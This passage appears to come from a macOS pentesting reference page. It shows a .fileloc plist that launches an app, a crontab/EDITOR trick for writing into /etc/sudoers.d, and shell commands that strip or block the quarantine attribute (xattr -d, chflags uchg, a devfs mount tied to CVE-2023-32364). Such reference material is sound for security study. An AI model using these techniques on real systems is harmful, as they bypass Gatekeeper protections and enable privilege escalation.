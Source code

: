 Files with **`.fileloc`** extension can point to other applications or binaries so when they are open, the application/binary will be the one executed.\
Example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>URL</key>
    <string>file:///System/Applications/Calculator.app</string>
    <key>URLPrefix</key>
    <integer>0</integer>
</dict>
</plist>
```

## Arbitrary FD

If you can make a **process open a file or a folder with high privileges**, you can abuse **`crontab`** to open a file in `/etc/sudoers.d` with **`EDITOR=exploit.py`**, so the `exploit.py` will get the FD to the file inside `/etc/sudoers` and abuse it.

For example: [https://youtu.be/f1HA5QhLQ7Y?t=21098](https://youtu.be/f1HA5QhLQ7Y?t=21098)

## Avoid quarantine xattrs tricks

### Remove it

```bash
xattr -d com.apple.quarantine /path/to/file_or_app
```

### uchg / uchange / uimmutable flag

If a file/folder has this immutable attribute it won't be possible to put an xattr on it

```bash
echo asd > /tmp/asd
chflags uchg /tmp/asd # "chflags uchange /tmp/asd" or "chflags uimmutable /tmp/asd"
xattr -w com.apple.quarantine "" /tmp/asd
xattr: [Errno 1] Operation not permitted: '/tmp/asd'

ls -lO /tmp/asd
# check the "uchg" in the output
```

### defvfs mount

A **devfs** mount **doesn't support xattr**, more info in [**CVE-2023-32364**](https://gergelykalman.com/CVE-2023-32364-a-macOS-sandbox-escape-by-mounting.html)

```bash
mkdir /tmp/mnt
mount_devfs -o noowners none "/tmp/mnt"
chmod 777 /tmp/mnt
mkdir /tmp/mnt/lol
xattr -w com.apple.quarantine "" /tmp/mnt/lol
xattr: [Errno 1] Operation not permitted: '/tmp/mnt/lol'
```

